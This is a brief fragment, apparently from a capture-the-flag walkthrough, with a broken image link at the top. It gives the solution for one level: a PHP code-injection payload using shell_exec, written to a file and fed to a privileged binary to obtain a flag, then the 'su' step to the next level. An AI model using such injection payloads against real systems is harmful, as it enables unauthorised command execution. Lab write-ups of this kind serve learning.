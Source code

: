 ssh:
- `echo '[x {${shell_exec(getflag)}}]' > /tmp/test; ./level06 /tmp/test`, copy the flag
- `su level07`, paste the flag as the password
